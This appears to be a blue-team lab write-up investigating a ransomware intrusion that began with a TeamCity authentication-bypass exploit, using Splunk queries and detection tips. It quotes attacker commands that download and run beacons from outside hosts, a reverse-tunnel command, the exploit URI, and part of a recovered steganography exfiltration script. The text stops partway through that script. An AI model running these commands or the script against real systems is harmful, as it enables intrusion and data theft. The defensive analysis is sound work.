## 1. Attack Visualization


## 2. Case Summary

On July 5, 2024, a sophisticated ransomware operation compromised a corporate network by exploiting an authentication bypass vulnerability (CVE-2024-27198) in a public-facing TeamCity (CI/CD) server located in the DMZ. Using an automated Python proof-of-concept (PoC) script, the threat actor sent crafted requests to the `/app/rest/users` endpoint, bypassing authentication controls. This allowed them to create an administrator account and execute malicious builds, gaining control over the TeamCity server.

Within minutes of gaining access, the threat actor executed a Base64-encoded PowerShell command to download a Cobalt Strike beacon named `java64.exe` (masquerading as a Java binary) into `C:\TeamCity\jre\bin\`. The beacon established command and control (C2) communications via a named pipe `MSSE-4774-server`, a default Cobalt Strike artifact. To maintain persistence, the threat actor created scheduled tasks, `CheckReporting` and `JavaUpdate`, on the TeamCity server, ensuring the beacon would survive system reboots.

Using `netstat -an`, the threat actor discovered active connections, identifying MSSQL activity on port `1433` (MSSQL’s default port). To pivot into the internal network, they executed `Sense.exe`, a renamed version of Rsockstun, a reverse proxy tool, to tunnel traffic through port `8080`. They also created a firewall rule to allow inbound connections on that port.

Since TeamCity was configured to use an external MSSQL database, the threat actor used it as a pivot point into the internal network. They attempted to run `xp_cmdshell`, but were initially blocked due to insufficient privileges.  At the same time, a brute-force attack against the `sa` (system administrator) account generated 2050 failed login attempts, eventually compromising the account. With `sa` account privileges, the threat actor enabled `show advanced options` and `xp_cmdshell`, allowing them to execute commands directly on the SQL server.

Using `xp_cmdshell`, the threat actor executed a Base64-encoded PowerShell command to download and execute `smss32.exe`, another Cobalt Strike beacon. They abused `SeImpersonatePrivilege`, a frequently misconfigured Windows privilege that can be exploited for privilege escalation, by executing .NET binaries in memory using Cobalt Strike's `execute-assembly` functionality to escalate their privileges to `NT AUTHORITY\SYSTEM`. This allowed them to execute an elevated Cobalt Strike beacon `smss64.exe`, which became the main point for lateral movement and ransomware deployment.

Using `smss64.exe`, the threat actor created scheduled tasks for persistence, discovered domain controllers using `nltest /dclist`, domain/enterprise admins using `net group "domain admins"`/`"enterprise admins"`, enumerated services and drivers for potential vulnerabilities using `Get-WmiObject -Class Win32_Service` and `Get-WindowsDriver -Online -All`.

For data exfiltration, the threat actor compressed and AES-encrypted critical system files (`ntoskrnl.exe`, `wdigest.dll`), embedding them into a BMP image using steganography techniques. These files provided memory offsets required for EDRSandblast to bypass EDR protections and enable WDigest to allow plaintext password storage. They also compressed core SQL Server components like `sqlos.dll` and `sqlmin.dll` and registry hives (SAM, SECURITY, SYSTEM) for offline credential extraction.

The threat actor used the WinPEAS tool, executed with the `-lolbas` flag, to identify vulnerable drivers and system misconfigurations that could be used for privilege escalation. This information enabled the threat actor to deploy EDRSandblast, exploiting the vulnerable `GDRV.sys` driver (CVE-2018-19320) to bypass EDR detection, and eventually dump LSASS memory. Additionally, the threat actor used `Invoke-Mimikatz` to retrieve NTLM hashes, including that of a domain admin, which was later used to perform a Pass-the-Hash (PtH) attack.

With domain admin privileges, the threat actor moved laterally to other machines in the network (DC01, FS01, MAIL, and IT01), disabling Windows Defender remotely via `WMIC`, then copied malicious DLLs (additional Cobalt Strike SMB beacons) to the `C$` share of these machines and executed it remotely via WMIC, establishing a foothold for all machines.

Finally, the ransomware `ABC.msi` was silently deployed using `/q` from the SQL server to the other compromised machines, encrypting files with the `.lsoc` extension, and leaving a ransom note `un-lock your files.html` containing two contact emails for negotiation.



## 3. Initial Triage and Ransomware Discovery

I began by examining **four** disk triage images, aiming to identify the ransomware extension which will be an important piece of information to start my investigation.



In `F:\E\Users\Administrator\Documents\`, I confirmed files were encrypted with the `.lsoc` extension ([T1486](https://attack.mitre.org/techniques/T1486/)).



Also, I found the ransom note called `un-lock your files.html` on the Desktop, which contained two email addresses for contacting the threat actors.





My next goal was to determine which process encrypted the files to understand how the ransomware was delivered to these hosts by tracing the ransomware activities back to its origin.

By filtering for files with the `.lsoc` extension, I discovered that `abc.exe` was responsible for encryption, with the last file encrypted on `2024-07-05` at `19:02:44`.

```splunk-spl
index=main TargetFilename=*.lsoc
```



By analyzing the infected hosts, I determined that the ransomware successfully executed only on JB01, SQL, and IT01, despite being deployed to additional machines across the network as I've identified later.



To trace `abc.exe` back to its origin, I filtered for file creation events on JB01, sorted them chronologically. At `19:02:08`, the logs showed `msiexec.exe` spawning `abc.exe`, indicating that the ransomware was likely deployed via an MSI installer.

```splunk-spl
index=main host="JB01" EventCode=11 "abc.exe" 
| sort + _time
```



Then I focused on `msiexec.exe` to see what it executed and how `abc.exe` was dropped onto the compromised hosts. I narrowed down my search to JB01 for a faster search:

```splunk-spl
index=main host="JB01" Image="*msiexec.exe" 
| sort + _time
```

I found **43 events** in total. One event showed that ABC.msi (likely the ransomware MSI installer) was deployed using  `msiexec.exe`  ([T1218.007](https://attack.mitre.org/techniques/T1218/007/)) with a Base64-encoded PowerShell ([T1059.001](https://attack.mitre.org/techniques/T1059/001/)) parent command. 



By decoding the parent command, it showed that the attacker attempted to download an MSI installer named `ABC.msi` from `http://54.174.120.223:56641/ABC.msi`, and dropped it in the `C:\Users\Administrator\AppData\Local\Temp\` directory.



Once the installer ran, it dropped two executables (`aipackagechainer.exe` and `abc.exe`) and a PowerShell script (`file_deleter.ps1`) at `19:02:08`, suggesting `ABC.msi` functioning mainly a dropper. 


After identifying the `ABC.msi` ransomware package, I searched for references to `ABC.msi` across all hosts to see where else it had been deployed.

The results showed it was delivered to JB01, SQL, DC01, FS01, MAIL, and IT01, even though it was not successfully executed on all of them as I identifier earlier.

```splunk-spl
index=main "ABC.msi" 
| sort + _time
```



Interestingly, the SQL machine showed the most activity, suggesting that SQL was the primary execution point from which the threat actor executed their commands and laterally moved to other machines in the network.

During further analysis, I identified multiple paths where the threat actor attempted to deploy the ransomware installer. However, most of these paths didn't exist in the triage image. 

The only exception was the path I previously discovered after decoding the parent Base64-encoded PowerShell command existed (`C:\Users\Administrator\AppData\Local\Temp`). While inspecting it, I found the ransomware MSI installer there. I then calculated its hash and searched for it on VirusTotal, but no matches were found.







> **Tip**
> In a typical real-world scenario, I would first analyze this malware in a private sandbox or use static analysis tools to gather initial insights into its behavior (such as file modifications, network activity, etc.). I could also conduct dynamic analysis in a controlled environment, if necessary, to observe its runtime behavior.
>
> Once I gather the initial findings, I would coordinate with the malware analysis team to extract actionable IoCs, create YARA rules, and implement detection logic to block the threat across the network and endpoints.
>
> However, since the analysis machine had no internet access or analysis tools, I relied on manually tracing events, analyzing logs, and correlating timestamps to determine how the malware initially got into the environment.


To understand how `ABC.msi` reached multiple systems, I examined the command lines and parent images associated with `ABC.msi`:

```splunk-spl
index=main "ABC.msi" CommandLine= * ParentImage=*
| sort + _time 
| table _time host ParentImage Image CommandLine
```

Most of the commands were originally executed using a suspicious binary on the SQL machine named `smss64.exe` (running on SQL), which spawned `cmd.exe`, and then executed WMIC commands to fetch `ABC.msi` from `http://54.174.120.223:56641/ABC.msi` and install it silently. This pattern was repeated for DC01, IT01, FS01, MAIL, and JB01, confirming my suspicious about lateral movement from SQL to other machines.

Additionally, the threat actor used PowerShell to execute similar commands locally on the SQL machine, further spreading the ransomware.



At this point, I have two potential paths to trace the attacker's activity:

1. Investigate IP `54.174.120.223` – Check for its earliest communication with the environment to determine **how the attacker initially gained access**.
2. Analyze `smss64.exe` – Investigate the activities of this binary and how it got onto the SQL machine, and eventually trace back the events to find the initial access point.

I decided to start with the IP investigation, as it could provide me insights into how the attacker gained initial access to the environment by checking the initial communications with that IP.

## 4. Initial Access

To confirm how the threat actor got initial access, I first looked up the **attacker’s IP** (`54.174.120.223`) on VirusTotal. It was flagged only by two vendors, suggesting potential malicious activity. Unfortunately, VirusTotal didn't provide any more details rather than noting that the threat actor's server was an Amazon EC2 instance. Since I had this limited information regarding the IP, I had to collect more information from logs.

I filtered the proxy logs for `54.174.120.223` and observed the first communication with our TeamCity server, which resides in the DMZ:

```splunk-spl
index="nginx_rp"  src="54.174.120.223" 
| table _time, src, http_method, uri_path, status, http_user_agent
| sort + _time
```



### 4.1 CVE-2024-27198 Exploitation

Initially, the threat actor sent repeated requests to `/login.html`  endpoint on port `8111`. The resulting HTTP `404` responses suggest they were probing for valid endpoints. This was followed by `GET` and `POST` targeting a crafted URI (`/pwned?jsp=/app/rest/users;.jsp`), suggesting potential exploitation. 

By doing further research, I confirmed that this activity was linked to [CVE‑2024‑27198](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/), which is a critical authentication bypass vulnerability ([T1190](https://attack.mitre.org/techniques/T1190/)). This CVE is typically exploited when an attacker:

* Requests an authenticated resource that generates a 404 response (e.g., `/pwned`).
* Passes an HTTP query parameter named `jsp` containing the value of the authenticated URI path (e.g., `?jsp=/app/rest/users`).
* Ensures this arbitrary URI path ends with `.jsp` (e.g., appending `;.jsp`).

By combining these elements, the threat actor crafted the exact URI:

```xml
/pwned?jsp=/app/rest/users;.jsp
```

In this case, the `GET` request likely was sent to confirm endpoint accessibility, while the subsequent `POST` request attempted to create a new user via the TeamCity REST API. The successful creation of a new user was confirmed by an HTTP `200 OK` response, indicating that exploitation was successful.

The User-Agent string `python-requests/2.31.0` in these requests strongly suggests the use of an automated exploit script, possibly based on a public PoC for this CVE.

Exploitation of this vulnerability allows remote code execution (RCE) on TeamCity, for example, through creating an administrator account and running malicious builds. Attackers often use such techniques to run malicious commands and deploy malware on TeamCity servers.

### 4.2 Confirming Account Creation

To validate the new account was indeed created, I reviewed the [TeamCity logs](https://www.jetbrains.com/help/teamcity/teamcity-server-logs.html#General+Logging+Description) on JB01 triage image. In `teamcity-activities.log`, I observed:



* `16:13:19` – User **ID 31** was created ([T1136](https://attack.mitre.org/techniques/T1136/)).
* `16:15:30` – Project `C12541534267` appeared with a suspicious name.
* `16:17:28` and `16:18:38` – Two builds were created and executed.

This highly suggests that the attacker starting executing malicious builds from the TeamCity UI after gaining their initial access.

> **Danger**
> Until now, my analysis revealed that the attack progressed between `16:13:18` (user creation) and `19:02:44` (last file encrypted with ransomware) on `2024-07-05`. 


With the initial access vector identified (the TeamCity server in the DMZ compromised via CVE-2024-27198), I started to focus on understanding how the attacker moved from the public subnet (DMZ) into our private infrastructure, leading to ransomware deployment across multiple hosts.

## 5. TeamCity Server (JB01)

Continuing my log analysis on JB01, at `16:18:44`, I identified two important events related to a Base-64 encoded PowerShell command execution within script block logs (EID 4104). 

The first event indicated a command executed from a TeamCity build, and the subsequent event showed the decoded command. It appeared that the threat actor attempted to download and execute an executable named `java64.exe` and placed it in `C:\TeamCity\jre\bin\java64.exe`.





This was immediately followed by two Windows PowerShell events (EID 800) at `16:18:45`, indicating that `java64.exe` was indeed downloaded and executed via a Base64-encoded PowerShell command with `SYSTEM` privileges. This strongly supported my hypothesis that the attacker created an **administrator** account on TeamCity by exploiting **CVE-2024-27198**, then used that access to run malicious builds.



Notably, this activity occurred 6-7 seconds after the second build execution time (`16:18:38`), confirming that this is the command that the attacker executed from within the TeamCity UI.

The `java64.exe` caught my attention as it's masquerading as a legitimate Java binary (`java.exe`) in the same path ([T1036.005](https://attack.mitre.org/techniques/T1036/005/)) . So, I thought that this is highly likely the malware used for command and control (C2).

Before checking what `java64.exe` does, I wanted to see what the attacker executed in their first build. So, I filtered for PowerShell script block logs (Event ID 4104) for entries one minute after the first build execution time (`16:17:28`). 

```splunk-spl
index=main host=jb01 EventCode=4104 
| sort + _time
```



I found a command where the attacker attempted to disable Windows Defender ([T1562.001](https://attack.mitre.org/techniques/T1562/001/)) at `16:17:46`. Correlating two events shows that the threat actor first disabled Windows Defender on JB01, then deployed their malware (`java64.exe`), likely to establish C2, which will be later confirmed.

Since VirusTotal search again resulted in no matches for `java64.exe`, I continued to trace its activity manually in subsequent logs.





To further analyze the activities of `java64.exe`, I used the following Splunk query:

```splunk-spl
index=main host=jb01 "*java64.exe*" 
| sort + _time
```

### 5.1 Named Pipes

Shortly after `java64.exe` was executed at `16:18:46`, I observed the creation of a named pipe `\MSSE-4774-server`.



According to [Cobalt Strike documentation](https://www.cobaltstrike.com/blog/learn-pipe-fitting-for-all-of-your-offense-projects), this artifact is commonly associated with its Artifact Kit binaries. Such behavior strongly indicates that the attacker is leveraging **Cobalt Strike** as their command and control (C2) framework ([T1587.001](https://attack.mitre.org/techniques/T1587/001/)).



Further analysis showed the creation of a post-exploitation pipe at `16:20:52` named `\postex_e86f`. This also aligns with Cobalt Strike defaults, which often follow the pattern `\\.\pipe\postex_###`. The presence of default Cobalt Strike pipe names suggests the attacker used unmodified Cobalt Strike profiles in their operations.




> **Tip**
> You can detect/hunt for Cobalt Strike pipe names within your environment by filtering for Event ID 17 (*Pipe Created*) and known Cobalt Strike default pipe names (which happens a lot that it isn't changed because attackers are so lazy) such as:
>
> ```
> \\msagent_, \\wkssvc, \\DserNamePipe*, \\srvsvc_, \\mojo., \\postex_, \\status_, \\MSSE-, \\spoolss_, \\win_svc*, \\ntsvcs*, \\winsock*, \\UIA_PIPE*
> ```


After identifying Cobalt Strike usage, I filtered for its default pipe names to check if they appeared elsewhere. I found other pipes instances of Cobalt Strike on other machines. 

```splunk-spl
index=main EventCode=17
PipeName IN (\\msagent_*, \\wkssvc*, \\DserNamePipe*, \\srvsvc_*, \\mojo.*, \\postex_*, \\status_*, \\MSSE-*, \\spoolss_*, \\win_svc*, \\ntsvcs*, \\UIA_PIPE*)
| table _time, host, ProcessID, Image, PipeName
| sort + _time
```



I discovered multiple Cobalt Strike pipe instances across JB01, SQL, DC01, FS01, MAIL, and IT01. I'll analyze these beacons' behavior later, as my main focus is on identifying how the attacker pivoted from the DMZ to the private network.

You can read more about detecting and hunting named pipes in the amazing "[Detecting & Hunting Named Pipes: A Splunk Tutorial](https://www.splunk.com/en_us/blog/security/named-pipe-threats.html)" Splunk article.

### 5.2 Persistence via Scheduled Tasks

Following that, at `16:20:13`, I observed the creation of scheduled tasks named `CheckReporting` and `JavaUpdate`, which the attacker used to achieve persistence ([T1053.005](https://attack.mitre.org/techniques/T1053/005/)). Both tasks were designed to maintain persistence under seemingly legitimate names.



### 5.3 Hunting Scheduled Tasks

> **Tip**
> We can usually hunt for scheduled tasks by using two methods:
>
> * Filtering for EID 106 (Scheduled Task Created) : This event records newly created scheduled tasks, which gives us insights on the responsible user account and task name. Correlating the tasks found with 200 and 201 (Task Executed/Completed). If these events appear, they reveal the full execution path.
> * Filtering for EID 4698 (Scheduled Task Created): This event provides more detailed information about newly created scheduled tasks including the task name, trigger information, account name, and the full path of the command to be executed. However, **object access auditing** must be enabled to capture this event, and it's not always enabled across all enterprises.

On JB01 for example, filtering for EID 4698 didn't show any scheduled tasks created by the threat actor. However, searching for EID 106 shows the malicious tasks that had been successfully created.

```splunk-spl
index=main host=jb01 EventCode=106
| table _time, User, Message
| sort + _time
```



I observed the two tasks `CheckReporting` and `JavaUpdate` both registered by user `S-1-5-18`, which is the [local system account used by the operating system](https://system32.eventsentry.com/codes/field/Well-known%20Security%20Identifiers%20\(SIDs\)). I correlated these findings with **EID 200 and 201** within the incident timeframe to check if these tasks were executed.

```splunk-spl
index=main host=jb01 EventCode IN (200, 201) Message IN (*\\CheckReporting*, *\\JavaUpdate*)
| table _time, User, Message
| sort + _time
```



However, no results were found, confirming that although the tasks were successfully registered, they were never triggered. 

Next, I decided to hunt for suspicious scheduled tasks across the environment. By searching Event ID 4698 across all hosts, I found additional scheduled tasks on multiple systems.

```splunk-spl
index=main EventCode=4698
| table _time, TaskName, FQDN, user
| sort + _time
```



And again, by correlating these findings with EID 200 and 201, no events were found, further confirming that none of the scheduled tasks got executed.



Persistence via scheduled tasks seems to be a common technique for the threat actor to establish persistence in the environment using legitimate-looking task names.

While further investigating `java64.exe` activities, I observed a high volume of events where the attacker executed various commands using PowerShell and CMD. To analyze this activity, I grouped the events to examine the commands executed by `java64.exe`.

Notably, all PowerShell commands were Base64-encoded, with some of them being double-encoded, which is a clever technique for evading detection. This behavior aligns with typical PowerShell execution using the default Cobalt Strike profile.

```splunk-spl
index=main host=jb01 "*java64.exe*" CommandLine=*
| table _time, Image, CommandLine 
| sort + _time
```

By grouping these commands, I was able to clearly map out the threat actor's activities using `java64.exe`.



### 5.4 Reconnaissance and Discovery

Examining these commands, I observed that after the threat actor established persistence via scheduled tasks (as previously identified), they used CMD to perform host reconnaissance ([T1033](https://attack.mitre.org/techniques/T1033/)), local account discovery ([T1087.001](https://attack.mitre.org/techniques/T1087/001/)), and process discovery ([T1057](https://attack.mitre.org/techniques/T1057/)):

```sh
# T1033: System Owner/User Discovery
whoami /priv
whoami /user
whoami /groups

# T1087.001: Local Account Discovery
net user
net localgroup

# T1057: Process Discovery
tasklist
```

This was followed by a series of Base64-encoded PowerShell commands, which can be further decoded using tools like CyberChef to analyze their behavior.

Since my primary focus is to determine **how the attacker pivoted to the private network**, I focused on identifying commands that indicate or facilitate lateral movement.

### 5.5 Network Reconnaissance with `netstat -an`

At `16:25:40`, I observed a command execution `netstat -an` via CMD ([T1049](https://attack.mitre.org/techniques/T1049/), [T1059.003](https://attack.mitre.org/techniques/T1059/)). This command provides a list of all active network connections and listening ports on the host. With TeamCity’s database residing on the SQL server (external database) in the private network, an open port `1433` in the `netstat` output could easily highlight a pivot point for moving from the DMZ into the private network.

You can find more details about configuring TeamCity with MSSQL in the [official documentation](https://www.jetbrains.com/help/teamcity/setting-up-teamcity-with-ms-sql-server.html).

```sh
C:\Windows\system32\cmd.exe /C netstat -an
```

### 5.6 Reverse Proxy with `Sense.exe`

At `16:46:35`, I observed that `Sense.exe` was likely used as a reverse proxy ([T1090.001](https://attack.mitre.org/techniques/T1090/001/), [T1047](https://attack.mitre.org/techniques/T1047/), [T1572](https://attack.mitre.org/techniques/T1572/)) to tunnel the threat actor's traffic from JB01 to their C2 server (`54.174.120.223:8443`). 

```powershell
wmic process call create "C:\Program Files\Windows Defender Advanced Threat Protection\Sense.exe -connect 54.174.120.223:8443 -pass M554-0sddsf2@34232fsl45t31"
```

This technique is often used by attackers to consolidate their C2 communications, minimizing activity across the environment and centralizing it through a single pivot host.

It was also a smart move by the threat actor to place `Sense.exe` within the Windows Defender folder, making it look like `MsSense.exe` (the main binary of the Windows Defender Advanced Threat Protection Service). This is considered an evasion technique, as this file name and path may bypass detection/monitoring and may not be easily noticed by less-experienced analysts ([T1036.005](https://attack.mitre.org/techniques/T1036/005/)).

This command and its parameters suggests potential [Rsockstun](https://github.com/llkat/rsockstun?tab=readme-ov-file) usage, which's a SOCKS5 tunneler with SSL and proxy support.



### 5.7 Firewall Rule Creation

Finally, at `16:54:58`, the threat actor created a firewall rule to allow inbound connections on port `8080`, likely to facilitate pivoting and further exploitation ([T1562.004](https://attack.mitre.org/techniques/T1562/004/)). This was the last command executed before ransomware execution on JB01.

```powershell
New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

Since the MSSQL server was the only endpoint in the private network reachable from JB01 (typically would be identified from the organization's network diagram and/or friendly intel), and considering that the TeamCity server's database was hosted on this MSSQL server (an external database), it is highly likely that the attacker used this as the pivot point to move into the private network. 

To confirm this hypothesis, I turned my focus to the MSSQL server logs around `16:54:58`, when the firewall rule was created, to see exactly how the attacker moved from the DMZ to the private subnet.

## 6. Pivoting to the Private Network

At `16:55:39`, I observed SQL server blocking attempts to run `xp_cmdshell`, apparently as it is disabled by default. Shortly after, at `16:55:51`, the attacker enabled the `show advanced options` setting, which allowed enabling `xp_cmdshell` by setting its value to 1.

> **Info**
> Enabling `xp_cmdshell` allows executing Windows shell commands from the SQL Server environment.


Since modifying `xp_cmdshell` requires sysadmin privileges, the threat actor's likely used an account without sufficient privileges in their first attempt. However, on the second attempt, they were able to enable `xp_cmdshell`, suggesting that they compromised an account with sysadmin privileges.

The only way the attacker could have obtained SQL credentials from the DMZ is through the TeamCity server. Since TeamCity uses the MSSQL server as an external database, the credentials should be stored in the [database.properties](https://github.com/JetBrains/teamcity-docker-samples/blob/master/multinode/data/config/database.properties) file. 

I found the username `TeamCity` and the password `P@ssw0rd123!`.



This TeamCity database account presumably had **low privileges**, so the threat actor either escalated privileges from that account or compromised a higher-privilege account to successfully enable `xp_cmdshell`.

To confirm which credentials were used, I reviewed successful login attempts on the MSSQL server. However, the current auditing configuration logged only failed logins, so I focused on Event ID 18456.



To investigate this, I analyzed MSSQL failed logins (EID 18456). I found `2050` failed login attempts within a few seconds, showing a brute-force attack ([T1110.001](https://attack.mitre.org/techniques/T1110/001/)) on the default system administrator `sa` account.



By correlating timestamps, I found out that the brute-force attack occurred just before the `xp_cmdshell` modification, suggesting that the threat actor successfully compromised the `sa` account. 

Even so, `xp_cmdshell` commonly executes commands in the context of the SQL Server service account (`NT SERVICE\MSSQL$SQLEXPRESS` by default), which usually has restricted privileges unless improperly configured. This indicates the attacker might still need further privilege escalation to gain `SYSTEM` privileges on the host (something I investigated in the following steps).

## 7. SQL Server

Now, I need to investigate the threat actor’s activity after they gained access to the SQL server. Since I previously observed Cobalt Strike in use, with the default profile, generating Base64-encoded PowerShell commands with common malicious flags such as `-nop`, `-exec`, `-enc`, and `-EncodedCommand`, I filtered for these flags to locate any malicious PowerShell executions, which should help me identify the beacon(s) deployed on the SQL machine, then I can filter for them to view all of the activities made by the attacker.


```splunk-spl
index=main  host=sql EventCode=1 (-enc OR -EncodedCommand OR -exec OR -nop)
| table _time ParentImage Image ParentUser CommandLine
| sort + _time
```




At `16:55:59`, just 20 seconds after `xp_cmdshell` was enabled (`16:55:39`), I observed multiple `xp_cmdshell` executions spawning `cmd.exe` under `sqlservr.exe` (the MSSQL process). These commands deployed a new Cobalt Strike beacon named `smss32.exe` using a Base64-encoded PowerShell command. The beacon successfully launched at `17:06:27`.

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.3.4:8080/smss32.exe', 'C:\Windows\Temp\smss32.exe'); Start-Process 'C:\Windows\Temp\smss32.exe'
```

By decoding the command, I observed that `smss32.exe` was downloaded and executed under `NT SERVICE\MSSQL$SQLEXPRESS`. This aligns with the fact I mentioned earlier, that any OS-level command executed through `xp_cmdshell` inherits the SQL Server service account’s context. Because this account has limited privileges (no administrative access), I expected that the threat actor would escalate their privileges to proceed with their attack.

Additionally, this command reinforced my earlier hypothesis that `Sense.exe` on JB01 (`10.10.3.4`) was proxying all traffic over port `8080` to the attacker’s C2. By tunneling the beacon's traffic through JB01, the threat actor consolidated their C2 activities and minimized direct connections from the compromised machines to the external network.

### 7.1 Privilege Escalation

After successfully gaining an initial foothold on the SQL server, I observed the attacker downloading the [WinPEAS tool](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) from GitHub ([T1105](https://attack.mitre.org/techniques/T1105/)), which is commonly used to identify potential privilege escalation paths in Windows environments. The threat actor renamed the file to `peas.exe` before running it.

```powershell
(New-Object Net.WebClient).DownloadFile('https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64_ofs.exe', 'C:\Windows\Temp\peas.exe')
```



At `17:11:30`, WinPEAS was executed using a Base64-encoded PowerShell with the `-lolbas` flag. This parameter scans for LOLBAS and other exploitable escalation paths.



Shortly afterward, at `17:20:21`, I observed the download and execution of `smss64.exe` with `rundll32.exe` as a parent process. 

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.3.4:8080/smss64.exe', 'C:\Windows\Temp\smss64.exe'); Start-Process 'C:\Windows\Temp\smss64.exe'
```

By `17:21:27`, `smss64.exe` was successfully executed under `NT AUTHORITY\SYSTEM` context, which is clear evidence that the threat actor has successfully escalated their privileges.



#### **So, how did the attacker manage to escalate their privileges?** 

First, I thought it was something related to WinPEAS finding privilege escalation vulnerabilities, but it appeared not to be the case.

In many cases, Microsoft SQL Express services (`NT SERVICE\MSSQL$SQLEXPRESS`) is misconfigured to run under local service accounts with privileges like `SeImpersonatePrivilege`, which is a common misconfiguration that attackers exploit for privilege escalation (e.g., Potato family exploits). Since the threat actor was using Cobalt Strike with its default profile, and the fact `smss64.exe` was started via `rundll32.exe`, I hypothesized they likely used `execute-assembly` feature in Cobalt Strike.

Cobalt Strike’s `execute-assembly` allows .NET binaries execution in memory, bypassing traditional defenses. It typically works by spawning a sacrificial process (e.g.,`dllhost.exe`, `rundll32.exe` or whatever is defined in the malleable C2 profile's `spawnto` configuration) and then loads the .NET CLR (Common Language Runtime).

### 7.2 Detecting Cobalt Strike `execute-assembly`

To validate my hypothesis regarding .NET in-memory execution, I searched the logs (just before `smss64.exe` was downloaded and executed) for processes loading `clr.dll`, `clrjit.dll`, `mscoree.dll`, and `mscorlib.dll` but not linked to typical .NET applications. This detection approach was described by **MDSec** in their article “[Detecting and Advancing In-Memory .NET Tradecraft](https://www.mdsec.co.uk/2020/06/detecting-and-advancing-in-memory-net-tradecraft/)” and MITRE ATT\&CK detection ([DS0011](https://attack.mitre.org/datasources/DS0011)) under the "[T1620: Reflective Code Loading](https://attack.mitre.org/techniques/T1620/)" technique.





By focusing on the `MSSQL$SQLEXPRESS` service account and modules linked to the .NET CLR, I found `rundll32.exe` loading `clr.dll`, `clrjit.dll`, and `mscoree.dll` twice under `NT SERVICE\MSSQL$SQLEXPRESS`, once at `17:19:42` and again at `17:20:20`. This behavior is abnormal, as `rundll32.exe` typically doesn’t load .NET assemblies unless explicitly directed to do so.


```splunk-spl
index=main host=sql User="*MSSQL$SQLEXPRESS*" EventCode=7 Image=*rundll32.exe (ImageLoaded=*clr.dll OR ImageLoaded=*clrjit.dll OR ImageLoaded=*mscoree.dll OR ImageLoaded=*mscor.dll)
| sort + _time
| table _time, Image, ImageLoaded, User
```




This strongly suggests in-memory execution of a .NET payload likely exploiting service account privileges for privilege escalation. Tools such as  [SweetPotato](https://github.com/CCob/SweetPotato) and [JuicyPotato](https://github.com/ohpe/juicy-potato) are well-known for exploiting these service account privileges to gain `SYSTEM` access ([T1134.002](https://attack.mitre.org/techniques/T1134/002/)).

As the second CLR loading event ended at `17:20:20`, immediately followed by the `smss64.exe` deployment at `17:20:21`, this validates my hypothesis that the attacker performed in-memory .NET execution to escalate privileges.

### 7.3 Discovery

After confirming that the attacker escalated privileges on the SQL server, I next focused on `smss64.exe` to see how the threat actor laterally moved through the environment to deploy ransomware. I started by filtering logs for process creation events for `smss64.exe`.

```splunk-spl
index=main  host=sql EventCode=1 ParentImage=*smss64.exe
| table _time ParentImage ParentUser CommandLine
| sort + _time
```

From these results, I discovered the attacker issued several reconnaissance commands ([T1018](https://attack.mitre.org/techniques/T1018/), [T1087.002](https://attack.mitre.org/techniques/T1087/002/), [T1007](https://attack.mitre.org/techniques/T1007/), [T1652](https://attack.mitre.org/techniques/T1652/)) through `smss64.exe`.

```powershell
# T1018: Remote System Discovery
# To discover domain controllers
nltest /dclist

# T1087.002: Account Discovery: Domain Account
# To enumerate the domain and enterprise admin accounts
net group "domain admins"
net group "enterprise admins"

# T1007: System Service Discovery
# Retrieves information about services on SQL
Get-WmiObject -Class Win32_Service -Computername SQL

# T1652: Device Driver Discovery
# Lists all installed drivers on the system
Get-WindowsDriver -Online -All
```



### 7.4 BMP Steganography for Exfiltration

An interesting event I noticed was the download of a file called `b` from the attacker's C2 IP `54.174.120.223` at `17:40:42`:

```splunk-spl
IEX ((New-Object Net.WebClient).DownloadString('http://54.174.120.223:80/b'))
```

Given that this PowerShell command (using `IEX` (Invoke-Expression) and `DownloadString`) executes entirely in memory, I checked the PowerShell script block logs (Event ID 4104) starting at `17:40:42` when this event occurred. The logs showed that the script compressed `ntoskrnl.exe` and `wdigest.dll` with GZIP, encrypting them with AES-256, and embedding the resulting payload into a BMP image, which's considered as a steganography technique ([T1027.003](https://attack.mitre.org/techniques/T1027/003/)). A random BMP file was generated in `C:\Windows\Temp`.



By cross-referencing this with EID 800 PowerShell logs, at `17:42:01`, I found the output BMP file name and the encryption key used for encrypting the files.



Less than 2 minutes later, at `17:43:38`, the threat actor deleted `aju10rsgreg.bmp`, presumably to cover their tracks after exfiltration.



Below is the complete script recorded in the PowerShell script block logs:

```powershell
# Load necessary .NET assemblies
Add-Type -AssemblyName System.Drawing

# Function to create a random file name
function Get-RandomFileName {
    $random = [System.IO.Path]::GetRandomFileName()
    $random = $random.Replace('.', '') # Remove the dot
    return "$random.bmp"
}

# Generate a strong random encryption key
$key = New-Object byte[] 32
[System.Security.Cryptography.RandomNumberGenerator]::Create().GetBytes($key)

# Convert the key to a Base64 string for transfer
$keyBase64 = [Convert]::ToBase64String($key)
Write-Output "Encryption Key: $keyBase64"

# Extract target files
$targetFiles = @(
    "C:\Windows\System32\ntoskrnl.exe",
    "C:\Windows\System32\wdigest.dll"
)

# Function to Compress Data
function Compress-Data {
    param (
        [byte[]]$data
    )
    $memoryStream = New-Object IO.MemoryStream
    $gzipStream = New-Object IO.Compression.GzipStream($memoryStream, [IO.Compression.CompressionMode]::Compress)
    $gzipStream.Write($data, 0, $data.Length)
    $gzipStream.Close()
    return $memoryStream.ToArray()
}

# Encrypt Data using AES
function Encrypt-Data {
    param (
        [byte[]]$data,
        [byte[]]$key
    )
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Key = $key
    $aes.Mode = [System.Security.Cryptography.CipherMode]::ECB
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $encryptor = $aes.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($data, 0, $data.Length)
    $aes.Dispose()
    return $encryptedData
}

# Compress each file individually, then concatenate the results
$allCompressedData = @()
foreach ($filePath in $targetFiles) {
    $fileData = [System.IO.File]::ReadAllBytes($filePath)
    $compressedData = Compress-Data -data $fileData
    $lengthBytes = [System.BitConverter]::GetBytes($compressedData.Length)
    $allCompressedData += $lengthBytes
    $allCompressedData += $compressedData
}
$allCompressedData = [byte[]]$allCompressedData

